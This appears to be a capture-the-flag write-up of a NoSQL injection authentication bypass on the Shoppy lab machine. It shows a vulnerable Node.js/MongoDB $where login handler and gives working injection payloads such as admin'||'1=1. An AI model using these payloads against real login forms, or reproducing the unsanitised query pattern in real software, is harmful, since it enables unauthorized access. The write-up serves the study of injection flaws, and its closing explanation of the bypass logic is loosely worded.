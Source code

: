 Beyond Auth bypass

Shoppy come with MEAN stack {Mongodb,Express,Angular,Nodejs}  
 
Endpoints   
/login

We identified Nosql injection vulnerability 
In username parameter of login form in shoppy.htb

**About Nosql injection in Nodejs**

One thing many users are surprised about, is that Mongo supports JavaScript evaluation when a JS expression is placed into a $where clause or passed into a mapReduce or group function. So anywhere unfiltered input is passed to one of these clauses, we may find JavaScript injection.

**JavaScript Injection Example**

The app has a JavaScript injection in the querystring of the user lookup page. The (vulnerable) lookup code looks like this:

```javascript
let username = req.query.username;
query = { $where: `this.username == '${username}'` }
User.find(query, function (err, users) {
	if (err) {
		// Handle errors
	} else {
		res.render('userlookup', { title: 'User Lookup', users: users });
	}
});
```
As you can see, the username search string is pulled directly from the request without any filtering. The query is a where clause which passes in the username string directly. So, if we put valid JavaScript into the querystring, and match quotes correctly, we can have Mongo execute our JavaScript!

In this case, our goal is to find all valid users, so we'd like to pass in something which will always evaluate to true. If we pass in a string like ' || 'a'=='a the query will become $where: `this.username == '' || 'a'=='a'` which of course always evaluates to true and thus returns all results. With JS injection, there are many other things we might be able to achieve, and boolean checks are just one


Reference no 1 [https://nullsweep.com/a-nosql-injection-primer-with-mongo/](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)

Reference no 2 **Javascript Evaluation Query in mongodb**   

[https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/](https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/)

**Debuging ShoppyApp**

Runing shoppyapp localy and config the mongodb 

Vulnerable Code
```javascript
app.post('/login', async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    if (username === undefined || password === undefined) {
        res.status(400).send('Bad Request');
        return;
    }
    const passToTest = require('crypto').createHash('md5').update(password).digest('hex');
    const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
    const result = await User.find(query).maxTimeMS(350);
    if (result.length === 0) {
        res.redirect('/login?error=WrongCredentials');
    } else {
        req.session.username = req.body.username;
        req.session.save((error) => {
            if (error) {
                res.redirect('/login?error=WrongCredentials');
            } else {
                res.redirect('/admin');
            }
        });
    }
});
```
**Payload**   
{"username":"admin'||'1=1","password":""}

Set a breakpoint in line 86 and inject the payload the query will look like this
```javascript
$where: 'this.username === 'admin'||' 1=1' && this.password === 'd41d8cd98f00b204e9800998ecf8427e''
```
**Report**   
admin OR 1=1 AND passwod in this query "1=1" will evaluates to true and return 1. If we get 0 it will redirect to Wrongcreds if we get 1 it will redirect to /admin endpoint from that point we successfully bypass the auth 
